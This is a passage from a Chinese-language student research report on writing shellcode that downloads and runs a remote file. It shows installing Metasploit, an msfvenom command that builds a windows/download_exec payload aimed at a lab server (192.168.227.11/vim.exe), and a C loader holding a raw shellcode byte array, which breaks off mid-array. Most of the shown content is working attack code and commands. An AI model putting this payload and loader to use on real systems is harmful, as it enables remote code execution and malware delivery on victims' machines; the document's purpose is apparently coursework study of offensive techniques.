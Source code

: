 # shellcode开发_研究报告

### 2015级信息安全 郭韵婷

## 一、研究选题

* 开发适分别用于 windows x86&x64 以及 linux x86&64 平台下的shellcode，该shellcode主要完成远程下载功能。

## 二、研究过程

### 1、实验一：利用metaploit，获得在windows x86平台上具有下载和执行功能的shellcode

* 实验环境：

	* 测试： windows xp
	* metasploit应用平台： ubuntu16.04 server
	* 远程服务器：192.168.227.11


* ubuntu16.04下安装metaploit：

		cd /opt
		curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
		chmod 755 msfinstall
		./msfinstall

* 查看符合要求的payload

  	![](https://i.imgur.com/eWfobOF.jpg)

* 查看payload参数配置
	
	![](https://i.imgur.com/v7qLfMN.jpg)
	
* 生成shellcode
	
	`sudo msfvenom -p windows/download_exec URL=192.168.227.11/vim.exe EXE=vim.exe -f c`

	![](https://i.imgur.com/zuiqCtM.jpg)

* 放入shellcode装载器，生成可执行文件

		#include<windows.h>
		#include<stdio.h>
		#include<string.h>
		
		char code[] = 
		"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
		"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
		"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
		"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
		"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
		"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
		"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
		"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68"
		"\x77\x69\x6e\x69\x89\xe6\x54\x68\x4c\x77\x26\x07\xff\xd5\x31"
		"\xff\x57\x57\x57\x57\x56\x68\x3a\x56\x79\xa7\xff\xd5\xeb\x60"
		"\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x6a\x50\x53\x50\x68\x57"
		"\x89\x9f\xc6\xff\xd5\xeb\x4f\x59\x31\xd2\x52\x68\x00\x32\x60"
		"\x84\x52\x52\x52\x51\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89"
		"\xc6\x6a\x10\x5b\x68\x80\x33\x00\x00\x89\xe0\x6a\x04\x50\x6a"
		"\x1f\x56\x68\x75\x46\x9e\x86\xff\xd5\x31\xff\x57\x57\x57\x57"
		"\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1c\x4b\x0f\x84"